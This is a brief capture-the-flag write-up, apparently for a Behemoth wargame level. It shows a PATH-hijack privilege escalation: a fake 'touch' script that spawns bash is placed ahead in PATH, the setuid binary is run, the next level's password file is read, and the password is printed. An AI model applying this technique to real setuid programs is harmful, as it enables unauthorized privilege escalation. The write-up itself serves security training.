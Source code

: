 ```yaml
---
layout: default
title: behemoth3
---
```


# behemoth level3 Solution

In this challenge, we can see the code call this line in C: `system("touch $pid")`, so, we'll override the `touch` by manipulating the $PATH environment variable.

```
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ echo "/bin/bash" > touch
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ export PATH=$(pwd):$PATH
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ chmod +x touch
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ chmod +x .
behemoth2@gibson:/tmp/tmp.SzpOLaiNNy$ /behemoth/behemoth2
behemoth3@gibson:/tmp/tmp.SzpOLaiNNy$ cat /etc/behemoth_pass/behemoth3
JQ6tZGqt0i
```



**Flag:** ***`JQ6tZGqt0i`*** 
